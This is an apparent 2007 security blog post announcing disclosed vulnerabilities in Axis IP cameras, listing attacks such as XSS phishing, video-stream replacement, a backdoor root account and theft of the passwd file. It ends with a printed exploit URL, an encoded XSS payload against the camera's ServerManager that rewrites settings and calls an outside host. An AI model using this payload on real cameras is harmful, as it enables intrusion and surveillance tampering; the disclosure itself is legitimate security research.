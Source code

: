 ```yaml
---
title: Owning Big Brother - Hollywood-style Exploits Included!
author: adrian-pastor
date: Fri, 28 Sep 2007 18:43:14 GMT
template: this/views/post.jade
---
```


I've done some research on Axis IP cameras, which now I am able to disclose to you and reveal some of the magic. Although this is not independent research, I am mentioning it here as it may interest some.

The research is made of two components: a purple paper (one of the traditions we follow in GNUCITIZEN) and a video. I promise you that I won't bore you with PoCs, but actual Hollywood-style exploits. This includes the classic attack in which the legitimate video stream gets replaced by another stream that keeps looping forever (remember [Speed](http://en.wikipedia.org/wiki/Speed_(film))). We even created a [demo video](http://www.youtube.com/watch?v=CEaasduNWBE) of this attack! Blame [Major Malfunction](http://www.alcrypto.co.uk/) (soon to be featured) for this, as he suggested the third-party-video infinite loop technique.

Here are some of the juicy bits, mentioned in the paper:

* Cross-browser XSS phishing
* Replacing the legitimate video stream with our own
* Adding a Backdoor Root Account
* Stealing the 'passwd' File

Here is an example of an exploit that we've come up with. You don't know what it is doing? Well, read the paper for more details:

	http://target/%3cscript%20src=%22/this_server/ServerManager.sr
	v%3fconf_Layout_TitleEnabled=yes&Layout_TitleEnabled=on&conf_L
	ayout_OwnTitleEnabled=yes&conf_Layout_OwnTitle=%3cimg%20src=ht
	tp://snipu.com/f1%3e%3c!--
	&servermanager_do=set_variables%22%3e%3c/script%3e%3c!--
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
